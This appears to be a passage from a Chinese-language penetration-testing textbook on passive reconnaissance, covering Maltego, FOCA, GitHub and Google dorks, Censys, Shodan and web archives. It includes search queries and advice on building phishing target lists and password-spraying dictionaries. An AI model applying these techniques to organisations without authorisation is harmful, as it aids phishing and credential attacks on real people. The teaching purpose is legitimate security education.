

**图 2-8** OSINT 框架

OSINT 框架是一个专注于信息收集的静态网页，提供可在侦察过程中使用的网页链接和资源。该网站分为各个节点，为收集有关特定主题的信息（如用户名、电子邮件地址、社交网络、IP 地址等）提供独特路径。OSINT 框架帮助用户指明方向，从各种公共和付费资源中找到有用的情报。

############### 社交媒体

社交媒体允许我们发布姓名、电子邮件地址、求职简历、偏好和爱好，并进行许多其他电子互动。对于渗透测试，这些信息通常对针对个人进行网络钓鱼或其他社会工程学攻击很有价值，但我们也可以用它来了解组织本身。查看技术职位发布，根据所需技能和发布的职位识别公司的技术栈。你可能会发现内部使用的部门名称（例如，Human Resources 与 People Operations）以增加借口的可信度。其他感兴趣的项目包括管理层姓名、关键岗位人员，以及基于职位发布细节的组织运作方式。抓取 LinkedIn 上的员工姓名和职位有助于构建目标列表和可攻击的信任网。其中一些服务要求注册账户才能访问有用信息，其中一些会向目标报告你的活动（“陌生人浏览了你的个人资料！”）。因此，在进行被动信息收集时，要小心你的方法。记住，被动信息收集意味着不直接与目标交互。

###### 使用 Maltego CE


##### Maltego

一种称为 **Maltego** 的交互式数据挖掘软件工具，可以帮助用户利用互联网上公开可访问的数据来可视化和分析关系。它是一个框架，能够在渗透测试期间快速扩展对目标的开源知识。在开始之前，有几个关于 Maltego 的重要概念需要了解。

Maltego 使用不同的视图来显示数据，例如 `list` 视图（实体表格）和 `graph`（背景），用于在在线调查期间绘制实体（节点）。实体是代表域名系统 (DNS) 中的名称、网站、文件、IP 地址等的图标。`entity`（实体）是通过使用 `transform`（变换）来发现的，变换是一段查询数据源（即搜索引擎、社交网络、DNS 服务器等）的代码，用于识别与公开可搜索数据的关系，并将结果作为绘制在图表上的新实体返回。`machine`（机器）可以将多个变换链接在一起，以实现任务自动化。


> **NOTE** 本章提到的 Maltego 版本是 Maltego CE，即社区版。有关可用 Maltego 版本的更多信息，请访问公司网站：[`www.paterva.com`](https://www.paterva.com)。本章提供的步骤是一个快速入门指南，帮助你开始使用 Maltego CE。Paterva 在其网站 [`docs.maltego.com/support/home`](https://docs.maltego.com/support/home) 上提供了 Maltego 的官方用户指南、视频教程和其他有用的文档。

在使用 Maltego 之前，你需要创建一个账户并注册 Maltego 许可证。免费的社区版账户足以跟随本章进行学习。请注意，其他在线资源可能会引用仅在付费版本中可用的变换或功能。

Maltego 的设置相当简单。如果你从 Kali 主菜单启动 Maltego，应用程序加载时会出现启动画面。然后，“Welcome to Maltego”设置向导（如图 2-9 所示）将引导你完成首次使用 Maltego 的设置过程。当你点击“Next”继续向导时，系统会提示你输入社区版账户信息（如图 2-10 所示）并完成验证码验证。完成这些步骤后，你应该能够点击“Next”并按照剩余步骤完成设置向导。



**图 2-9** Welcome to Maltego



**图 2-10** Maltego 登录屏幕

在界面内部，如图 2-11 所示，“Home”选项卡提供对“Transform Hub”选项卡的访问，该选项卡显示 Maltego 中可用的常见变换。要安装，将鼠标悬停在项目顶部并点击“Install”。你可以用 Maltego 做很多事情，包括基于网络地址或范围、域名，甚至在那里工作的人员姓名，收集关于目标组织及其网站的信息。



**图 2-11** Maltego Transform Hub

许多博客介绍了如何使用 Maltego 根据名称或域名查找电子邮件和社交媒体账户（例如 [`www.maltego.com/blog/beginners-guide-examining-your-digital-profile/`](https://www.maltego.com/blog/beginners-guide-examining-your-digital-profile/) 或 [`www.maltego.com/blog/how-to-conduct-person-of-interest-investigations-using-osint-and-maltego/`](https://www.maltego.com/blog/how-to-conduct-person-of-interest-investigations-using-osint-and-maltego/)）。你甚至可以将这些练习中的信息与 Haveibeenpwned 变换 ([`www.maltego.com/transform-hub/haveiben-pwned/`](https://www.maltego.com/transform-hub/haveiben-pwned/)) 结合使用，以搜索涉及你发现的用户的数据泄露和密码泄露，从而为你的密码喷射尝试构建字典。我们这里没有足够的空间涵盖所有可能的用例。不过，为了让你了解使用 Maltego 进行被动侦察的一些可能性，让我们探讨一下如何收集关于网络的信息。


> **TIP** 在 Maltego 中工作时，创建新图表的键盘快捷键是 `CTRL-T`。

在本练习中，我们要对一个域进行足迹分析。有三个不同的足迹级别可供选择，范围从 L1（基础）、L2（中等）、L3（深度）到 XXL（大型目标）。每个级别都会考虑时间、执行的变换以及收集的信息量。级别越高，你最终积累的数据就越多。你可能想从第 1 级搜索开始，然后根据组织的规模和成熟度逐步向上推进。


> **CAUTION** L3 足迹分析执行时间可能较长，且会消耗大量资源。在使用此机器之前应仔细考虑。

1.  要开始挖掘数据，请点击左上角的 Maltego 图标，然后选择“New”以启动一个新图表。
2.  然后你可以点击顶部菜单中的“Machines”以显示 Machines 工具栏。选择“Run Machine”以选择一个现有的机器（如图 2-12 所示）。



**图 2-12** 启动机器页面

3.  在本练习中，选择 Footprint L2 并点击“Next”。
4.  Footprint L2 机器需要额外的输入。输入要用于在线调查的域名，然后点击“Finish”。初始收集完成后，你应该会在图表上看到一些显示的实体（如图 2-13 所示）。



**图 2-13** 完成的调查

实体调色板描述了每种图形图标的类型及其所代表的含义。Maltego 允许你在布局（实体的表示方式）之间切换，或者选择在列表视图或图表视图中列出实体。使用图表视图进行数据收集的一个重要方面是从一个实体绘制到下一个实体的线条。这说明了实体关系。当你将鼠标悬停在实体顶部时，你将在“Detailed View”窗口中看到关系定义和信息来源。你可以利用这些信息得出关于网络配置的结论，例如子域信息、IP 地址分配等。当你在图表上右键点击一个实体时，你可以配置并运行任意数量的适用变换，以扩展搜索标准并建立在已有关系之上（如图 2-14 所示）。



**图 2-14** 运行变换

Maltego 允许用户通过显示实体聚类来可视化隐藏关系，并定义符合约定范围的攻击路径。可视化机会并将其他数据挖掘能力（如专用搜索引擎，即 Shodan 和 Censys）集成到框架中的能力，使 Maltego 成为进行侦察的一站式工具。

##### FOCA


####### 元数据分析

进行开源情报收集的另一种有趣方法是通过元数据分析。这种分析可以通过搜索网站上托管的文档来查找隐藏信息。在 Office 产品中创建的文件会在文件内部存储隐藏属性，这些属性可能包含敏感信息，例如作者姓名（用户名）、电子邮件地址等。如果你打开一个 Microsoft Word 文档，然后单击“信息”（或“文件”选项卡，具体取决于你使用的 Word 版本），你将看到为该文档存储的属性信息，类似于 图 2-15。Fingerprinting Organizations with Collected Archives（通过收集的档案识别组织），简称 FOCA，是一个基于 Microsoft Windows 的工具，用于自动化这一发现过程。最新版本的 FOCA 可以从开发者的 GitHub 页面下载：[`github.com/ElevenPaths/FOCA`](https://github.com/ElevenPaths/FOCA)。FOCA 使用 Google、Bing 和 DuckDuckGo 搜索引擎来查找和分析常见文档类型，例如 Microsoft Office、Open Office 和 Adobe PDF。



**图 2-15** 隐藏属性

############### 搜索引擎

搜索引擎是寻找关于目标的 OSINT 的另一个场所。Google 和 Bing 等 Web 索引广为人知，但也有组织构建的自定义搜索引擎，它们扫描互联网并收集 Web 内容之外的系统数据。源代码仓库如 GitHub 也有搜索功能！因此，我们将在此探讨其中一些，并讨论它们在被动信息收集中扮演的角色。

Dorks（搜索语法/谷歌黑客语法）是可用于查找目标数据的查询。某些搜索引擎（如 Google）允许使用高级查询参数来查找普通查询可能将其淹没在数千个结果之下的信息。我们将介绍两种情况：GitHub dorking（用于侦察源代码）和 Google dorking。然后我们将介绍两个专业搜索引擎：Censys 和 Shodan。

################ GitHub

拥抱开源的公司可能会使用像 GitHub 这样的公共源代码仓库来共享源代码并与世界协作。考虑到这种方法的流行度和 GitHub 提供的易用性，其他组织也采用了该平台进行代码共享，通常是在更私密的基础上。然而，错误难免发生，本不应与世界共享的代码被发布了出来。作为一名渗透测试员，你可能会走运，发现私钥、认证数据、硬编码密码、系统配置数据，甚至代码漏洞，这些在测试过程中可能很有用。表 2-2 包含了一些 GitHub dorks 示例。你可以通过包含关于目标组织名称、目标贡献者或你正在针对的软件的关键词，进一步将结果限定在你的目标范围内。



**表 2-2** GitHub Dorks


**注意** 你可以在网上找到更多 GitHub dorks。以下是一些示例：https://github.com/techgaun/github-dorks 和 https://github.com/obheda12/GitDorker/blob/master/Dorks/alldorksv3

这远非一个详尽的列表，但它应该能让你了解搜索功能在源代码仓库中赋予你的力量。按公司名称或贡献者搜索项目可能会找到目标组织环境中使用的仓库。搜索这些仓库中的常见不安全实现有助于发现薄弱的登录表单或其他数据处理问题，例如。你可能还会发现对其他正在使用的软件的引用，这使你能够识别内部技术，如数据库版本，甚至可能在测试期间利用的脆弱依赖项。

################ Google Dorks

Exploit Database 托管着 Google Hacking Database（[`www.exploit-db.com/google-hacking-database`](https://www.exploit-db.com/google-hacking-database)），其中充满了适用于 Google 的 dorks。用途范围从根据公司域名识别登录门户，到搜索暴露在互联网上的网络摄像头或其他设备。你还可以指纹识别已被 Google 索引的 Web 应用程序和 Web 服务器，或搜索未设为私密的社交媒体。表 2-3 包含了一些示例。你可以通过添加 `site:` 或 `inurl:` 搜索组件来限制这些搜索的结果：



**表 2-3** Google Dorks

```
ext:log site: your-domain-name.com
```

或

```
ext:log inurl: your-domain-name.com
```

好吧，希望最后那个不会真找到你组织泄露的渗透测试报告。不过你可能会找到一份好的报告作为 第 10 章 的参考。这些至少应该能让你了解搜索引擎能实现什么。其他的 Google 操作符包括 `allintitle:`、`allinurl:`、`allintext:`、`intext:`、`cache:`、`related:` 和 `filetype:`。你还可以添加逻辑操作符，如 `OR`、`AND` 和 `-`（非），以及通配符（`*`）。例如，这将搜索是猫、狗或鸡，且是蓝色、红色或黑色的宠物，目的是返回所有关于蓝猫、蓝狗、蓝鸡、红猫、红狗、红鸡、黑猫、黑狗或黑鸡的结果，但不包括蓝猫头鹰、黄鸡或白色的任何东西：

```
pets (cats OR dogs OR chickens) AND (red OR blue OR black) -white
```

################ Censys

Censys 于 2015 年由创建 ZMap 的同一批安全研究人员在密歇根大学创立。Censys 允许你使用全文搜索或基于字段的搜索（商业版支持正则表达式）以及逻辑操作符，从全互联网扫描中查询主机和证书信息，以丰富你的查询。2021 年，Censys 发布了其搜索功能的 2.0 版本，简化了搜索术语，并将搜索工具移至 [`search.censys.io`](https://search.censys.io)。在 Censys 中，你可以按主机信息或证书信息进行搜索，如 图 2-16 所示。对于主机，Censys 收集关于网络寻址、供应商、操作系统或软件名称、服务、地理位置信息以及 Web 页面中使用的技术信息等。^(1) 对于证书，它收集诸如密码套件数据、主体和颁发者数据、公开可见证书的有效性等详细信息。^(2)



**图 2-16** Censys Search 2.0 主页

以使用 Censys 执行基于证书数据的被动侦察为例。假设你怀疑目标在维护其 Web 证书方面采取了松散的方法。也许这导致了安全意识降低，并对使用自签名或无效证书的网站产生了更多的点击通过行为。如果是这种情况，你可能能够利用这一点进行网络钓鱼攻击。下拉证书搜索选项，然后使用以下搜索来查找具有过期证书的主机名，使用证书名称和“expired”标签作为搜索参数：

```
parsed.names: domain-name AND tags.raw: "expired"
```

当然，你需要将此示例中的“domain-name”替换为你选择的目标域名。如果你想识别正在使用的弱密钥，也许是出于 PCI 合规性考虑？你可以针对证书使用此查询来获取结果：

```
parsed.names: domain-name AND parsed.subject_key_info.rsa_public_key.length: [ 0 TO 2047 ]
```


您甚至可以让主机搜索一系列 IP 地址。然后，使用如图 2-17 所示的报告功能，您可以显示在该范围内检测到的每个开放端口的报告产品摘要。为此，我们输入了数据定义 `services.software.product` 供报告汇总，然后点击了 Build Report（生成报告）。同样，您可以通过报告数据定义 `services.tls.certificates.leaf_data.subject.common_name` 来请求与该范围内使用证书的系统相关联的所有域名。然后您可以在证书搜索下搜索其中的每一个，并基于数据定义 `parsed.names.raw` 进行报告。由于这会返回所有包含您搜索的域名字符串的主机名，包括可能代表您的公司托管内容的第三方服务器，请务必在攻击网站之前验证通过这种方式发现的任何域名的所有权。



**图 2-17** 基于主机搜索结果的 Censys 报告

Censys 是一个灵活的搜索工具，可以帮助您识别系统漏洞、Web 基础设施和网络足迹，而无需直接查询您的目标。Explore（探索）功能使得透视变得更加容易。运行搜索后，点击其中一个结果。在这里，您将看到目标的开放端口、网络信息、操作系统和地理位置等信息。如图 2-18 所示，您还可以从顶部导航栏中选择 Explore。选择此项将显示一个关系图，以可点击的图形形式展示您搜索的目标及其主机、证书和域名信息。当您点击并按住一个节点时，将获得额外的搜索选项，例如 Explore Hosts（探索主机）、Explore Domains（探索域名）、Explore Certificates（探索证书）或 View（查看），以查看有关该节点的更多信息。在页面底部，您将获得一个 Available Pivots（可用透视）表，其中包含可用于手动搜索其他数据的数据定义。关于 Search 2.0 查询语言的进一步文档可在 Censys 文档站点获取：[`support.censys.io/hc/en-us/articles/360059608451`](https://support.censys.io/hc/en-us/articles/360059608451)



**图 2-18** Censys 目标探索

################ Shodan

Shodan 搜索引擎也会扫描整个互联网，解析服务的横幅并对每个设备返回的数据进行分类。主页提供了一个搜索框，可用于检查内容以查找关键字或短语。高级查询允许用户应用过滤器和布尔逻辑运算符以深入挖掘结果。它的工作方式类似于典型的 Web 搜索引擎，如 Google、Yahoo! 或 Bing。在图 2-19 中，我们正在查找任何返回包含关键字 "telnet" 的数据结果。



**图 2-19** Shodan 基本搜索

正如您所见，返回了大量结果，并归类为 Top Countries（热门国家）、Top Services（热门服务）、Top Organizations（热门组织）、Top Operating Systems（热门操作系统）和 Top Products（热门产品）。如果您点击其中一个汇总类别，它将在搜索框中应用相应的过滤器并执行新查询。Shodan 最有用的功能之一是能够将过滤器与搜索标准结合使用。如果您想查找包含关键字 "telnet" 且开放了 23 端口并位于美国的数据，我们可以在搜索框中应用搜索短语 `telnet port:23 country:"US"` 来缩小搜索范围（图 2-20）。



**图 2-20** Shodan 过滤器

顶部菜单栏上的 Reports（报告）按钮提供了一种基于搜索标准快速轻松生成报告的方法。此报告与您的帐户关联，一旦 Shodan 成功生成，即可访问。另一个有用的功能是 Explore（探索）按钮。在这里，您可以通过热门搜索和共享结果来调查潜在用例。

####### Web Archives

识别 Web 漏洞的另一种方法是使用 Web 存档。其中最流行的可能是 The Wayback Machine（[`web.archive.org/`](http://web.archive.org/)），但一些搜索引擎（如 Google）也提供在搜索结果中调出网站旧缓存版本的功能。有时，人们会意外地将网站上线或无意中在网站上发布信息。Web 存档对于检查是否存在这些情况很有用，因为它们允许您查看网站的早期版本。使用 Google，您可以在搜索中使用 `cache:` 运算符来检查网站的最后一个缓存版本，但要想追溯更早或选择特定日期的页面，The Wayback Machine 允许您搜索特定的 URL，如果它已收集，您可以点击某个日期来查看页面被收集时的样子。如图 2-21 所示，搜索结果页面底部的日历视图显示气泡以指示在特定一天对该网站拍摄了多少快照，颜色指示收集是否被重定向。然而，快照并不表示网站已更改，仅表示已被收集。



**图 2-21** The Wayback Machine

### 主动侦察

被动侦察有其局限性。如果我们延伸之前的家庭维护示例，您最终需要直接与承包商接触。您需要知道他们何时有空，是否拥有执行您特定房屋维修所需的工具和专业知识，他们收费多少，甚至他们是否愿意做这项工作！在这一点上，您可能必须直接与他们互动，通过对话和其他交互来获取更多信息。

在渗透测试中，这将是主动信息收集。您*主动与目标交互*，以执行检测开放端口、网页、服务等操作，并识别可在渗透测试期间利用的弱点。这些操作可能会显示在日志、监控系统中，或影响目标的带宽利用率。除非您不担心被发现、造成中断或触发事件响应，否则在渗透测试期间应谨慎使用此方法。在合同范围之外采取这些行动可能被当地或地区法律禁止或不鼓励。例如，端口扫描已导致民事诉讼或向互联网服务提供商投诉，这可能会给渗透测试人员带来时间、金钱或资源的损失。在本章中，我们将重点关注发生在利用前的主动信息收集技术。我们将在第 9 章中介绍利用后的信息收集。

#### 主机枚举

